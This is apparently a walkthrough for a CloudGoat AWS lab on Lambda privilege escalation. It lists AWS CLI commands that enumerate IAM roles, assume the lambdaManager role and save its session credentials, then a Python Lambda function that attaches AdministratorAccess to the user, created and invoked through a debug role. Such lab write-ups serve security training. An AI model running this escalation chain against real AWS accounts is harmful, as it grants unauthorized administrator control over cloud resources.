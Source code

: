 `aws configure --profile Chris`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-chris-policy arn> --version-id v1 --profile Chris`

`aws iam list-roles --profile Chris`

`aws iam list-attached-role-policies --role-name cg-debug-role-<cloudgoat_id> --profile Chris`

`aws iam list-attached-role-policies --role-name cg-lambdaManager-role-<cloudgoat_id> --profile Chris`

`aws iam get-policy-version --policy-arn <cg-lambdaManager-policy arn> --version-id v1 --profile Chris`

`aws sts assume-role --role-arn <cg-lambdaManager-role arn> --role-session-name lambdaManager --profile Chris`


Then add the lambdaManager credentials to your AWS CLI credentials file at `~/.aws/credentials`) as shown below:

```
[lambdaManager]
aws_access_key_id = {{AccessKeyId}}
aws_secret_access_key = {{SecretAccessKey}}
aws_session_token = {{SessionToken}}
```
python code(name the file lambda_function.py):
````
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName = 'chris-<cloudgoat_id>', PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
````

`aws lambda create-function --function-name admin_function --runtime python3.6 --role <cg-debug-role arn> --handler lambda_function.lambda_handler --zip-file fileb://lambda_function.py.zip --profile lambdaManager`

`aws lambda invoke --function-name admin_function out.txt --profile lambdaManager`

`aws iam list-attached-user-policies --user-name chris-<cloudgoat_id> --profile Chris`
